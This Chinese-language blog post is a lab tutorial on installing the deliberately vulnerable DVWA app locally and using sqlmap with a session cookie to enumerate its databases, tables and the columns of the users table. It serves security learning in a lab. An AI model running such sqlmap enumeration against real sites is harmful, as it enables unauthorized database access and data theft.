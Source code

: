```yaml
---
title: 利用sqlmap注入dvwa
date: 2019-10-13 11:17:30
tags: [sql注入]
categories: sql注入
---
```


利用sqlmap对dvwa进行注入。

<!--more-->

kali自带sqlmap，在主机安装DVWA

DVWA的安装：

http://www.dvwa.co.uk/

进入网址，下载zip，解压到www目录下，修改www/DVWA/config/config.inc.php中的数据库密码

浏览器进入localhost/DVWA/输入默认用户名admin,密码password，然后点击页面上的“create/reset database”就可以完成了，将DVWA security改成非impossible

![LBPT_7ZN9O_Z6Z_9_9_GJCN.png](https://i.loli.net/2019/10/13/Yr1mnjIOKhF3fJD.png)

在kali上上启动sqlmap，由于我是虚拟机上运行的sqlmap，只需要将localhost换成主机IP即可

开始注入url:

```bash
sqlmap -u "http://192.168.74.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=objgo9hbf567bvqkmf45ffmts0"
```

由于这个注入页面需要登陆，所以还得加上cookie(chrome下cookie导出工具editthiscookie),过程中会不断让输入Y/N，可以加上参数--batch，来自动填写默认值。

![_GCJPZ3_5T3T97_6K37__QN.png](https://i.loli.net/2019/10/13/6X3MUkLP5Nftz2e.png)

得到数据库类型版本信息(mysql)，服务器类型版本信息(apache，php)

用--dbs查看数据库名

```bash
sqlmap -u "http://192.168.74.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=objgo9hbf567bvqkmf45ffmts0" --batch --dbs
```

![7QU2_IR5VYECTF~_V~QPQ_6.png](https://i.loli.net/2019/10/13/JoAiTGRt9q4FNeL.png)

得到6个数据库名

用--D xxx查看指定数据库，--tables查看数据库中表信息

```bash
sqlmap -u "http://192.168.74.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=objgo9hbf567bvqkmf45ffmts0" --batch -D dvwa --tables
```

![__O`CQDEB_3S_A_WIYRY089.png](https://i.loli.net/2019/10/13/3sNWgyEmRpejlhI.png)

得到了数据库dvwa的所有表名

用--T xxx查看指定表，--columns查看表的列信息

```bash
sqlmap -u "http://192.168.74.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=objgo9hbf567bvqkmf45ffmts0" --batch -D dvwa -T users --columns
```

![_K_TD7~IC_AW_D_~656GBNQ.png](https://i.loli.net/2019/10/13/3xNvIqEUPbjOCJM.png)

得到了数据库dvwa中表users的数据信息

注入成功！